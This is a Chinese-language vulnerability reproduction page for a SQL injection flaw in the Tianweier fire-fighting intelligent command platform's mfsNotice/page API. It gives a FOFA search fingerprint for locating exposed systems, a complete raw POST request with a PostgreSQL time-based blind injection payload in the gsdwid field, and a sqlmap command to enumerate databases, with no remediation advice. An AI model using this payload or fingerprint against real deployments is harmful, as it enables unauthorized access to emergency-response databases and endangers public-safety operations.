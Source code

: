 # 天维尔消防智能指挥平台API接口页面sql注入

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">天维尔消防智能指挥平台是一个采用先进的信息技术和通信技术的系统，能够快速准确地获取和处理突发事件的信息，实现对灾害现场的实时监控和指挥调度，有效提升应急救援工作的能力和水平。天为消防智能指挥平台存在一个漏洞，影响组件API接口中/mfsNotice/page文件的未知代码。通过操纵参数gsdwid可以导致SQL注入</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 天维尔消防智能指挥平台

# 三、资产测绘
+ fofa`body="1997-2020 天维尔信息科技股份有限公司"`
+ 特征![1713248867816-c5d8010e-070f-4e92-8138-7526aa05d8fc.png](./img/bLXwGvRixXSMcwTn/1713248867816-c5d8010e-070f-4e92-8138-7526aa05d8fc-610098.png)

# 四、漏洞复现
```java
POST /twms-service-mfs/mfsNotice/page HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 103

{"currentPage":1,"pageSize":19,"query":{"gsdwid":"1f95b3ec41464ee8b8f223cc41847930')AND 5803=(SELECT 5803 FROM PG_SLEEP(3)) AND ('oJoi'='oJoi"},"hgubmt748n4":"="}
```

![1713248959286-64b5a565-ee51-45ab-8b52-05b56045b8a8.png](./img/bLXwGvRixXSMcwTn/1713248959286-64b5a565-ee51-45ab-8b52-05b56045b8a8-568512.png)

SQLMAP命令

```java
python3 sqlmap.py -r payload.txt --technique=T --time-sec 3  --dbs -v 3 --level 5 --random-agent
```

![1713251141032-131b90b2-330d-44bc-9445-51c55778e1e8.png](./img/bLXwGvRixXSMcwTn/1713251141032-131b90b2-330d-44bc-9445-51c55778e1e8-306551.png)



> 更新: 2024-04-20 22:02:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ch6s7681pfvp2rws>